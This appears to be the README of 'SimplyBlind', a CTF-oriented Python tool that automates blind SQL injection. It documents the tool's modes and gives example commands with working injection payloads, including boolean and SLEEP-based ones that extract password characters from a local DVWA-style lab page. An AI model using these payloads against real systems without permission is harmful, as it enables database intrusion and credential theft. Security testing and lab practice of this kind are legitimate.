 # SimplyBlind  
A script to extracted characters by exploiting blind SQL injection.

Designed for Capture The Flags (CTF) as i felt it was too troublesome to meanual extract each character. This is not ment for illegal use. please do not run this script on site you do not have permisssions on.

## Quick Start Quide:  
There are 2 "attack" modes:
- Brute: Brute force every character in the table
- Quick: Quick attack narrowes down possible CHAR before checking it. making it faster than brute

Modes are set with `-m <mode>`:  
- sc   Status Code 
- reg   regex  
- redir   rediract  
- to | nto  timeout | not_timeout  

The mode identifies if the injection returned a TRUE or FALSE.

## Examples:
Reponse Status code
``` shell
python simplyBlind.py quick -p "1' AND BINARY SUBSTR(password, \!I, 1) \!S '\!C' #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
![200](img/200.gif)
``` shell
python simplyBlind.py quick -m sc -s 200 -p "1' AND BINARY SUBSTR(password, \!I, 1) \!S '\!C' #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
![200_2](img/200_2.gif)  

Regex:
``` shell
python simplyBlind.py quick --m reg --regex "User ID exists in the database" -p "2' AND BINARY SUBSTR(password, \!I, 1) \!S '\!C' #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
![regex](img/regex.gif)  

Timeout:
```shell
python simplyBlind.py quick -m to --timeout 0.5 -p "10' AND IF(BINARY SUBSTR(password, \!I, 1) \!S '\!C', SLEEP(0.7), FALSE) #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
![timeout](img/time.gif)


### Common Peremeter:
`-p <payload>`   takes in a string to set custom payload. the payload takes in key that will be replaces with the appropiate value. keys, !I = incrementer, !S = symbol, !C = Char. Incrementers will run from 1 to the end of character in database or till its the same value as --limit. Symbol is used to narrow down and determin if the target character is the character we want. Character will be the character we are trying to match with.  

`-b <body>`   Takes in a string that sets the custom body. Body takes the key !P that will be replaced with the payload.  

`--get`   Set method to GET. default is POST.

`-h`   For help menu
